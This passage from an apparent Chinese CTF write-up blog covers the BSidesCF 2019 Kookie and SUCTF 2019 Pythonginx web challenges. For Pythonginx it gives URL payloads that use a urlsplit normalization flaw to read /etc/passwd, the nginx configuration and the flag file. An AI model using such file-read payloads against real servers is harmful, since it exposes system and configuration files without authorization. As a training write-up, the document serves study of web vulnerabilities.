 ![upload successful](./images/pasted-365.png)
点看源码看看。

![upload successful](./images/pasted-366.png)
WTF，直接找到flag，提交发现是正确flag！

# [BSidesCF 2019]Kookie1

![upload successful](./images/pasted-367.png)
一个登录页面，注意到有cookie字样，抓包看看

![upload successful](./images/pasted-368.png)
添加cookie参数，放行

![upload successful](./images/pasted-369.png)
拿下flag

# [SUCTF 2019]Pythonginx1

![upload successful](./images/pasted-370.png)
发现还是不能直接搜flag，有过滤

![upload successful](./images/pasted-371.png)
整理源码，审查。看CSDN上一个大佬写的最简单方法：

利用了urlsplit不处理NFKC标准化：<code>/getUrl?url=file:////suctf.cc/etc/passwd</code>

![upload successful](./images/pasted-372.png)
直接获取到所有目录

记个笔记：
<code>
Nginx 重要文件目录
配置文件存放目录：/etc/nginx
主要配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
Nginx配置文件：/usr/local/nginx/conf/nginx.conf
</code>
传参：<code>getUrl?url=file:////suctf.cc/usr/local/nginx/conf/nginx.conf</code>

![upload successful](./images/pasted-373.png)
这里拿到flag的地址，直接传参读取：<code>/getUrl?url=file:////suctf.cc/usr/fffffflag</code>

![upload successful](./images/pasted-374.png)
拿下flag

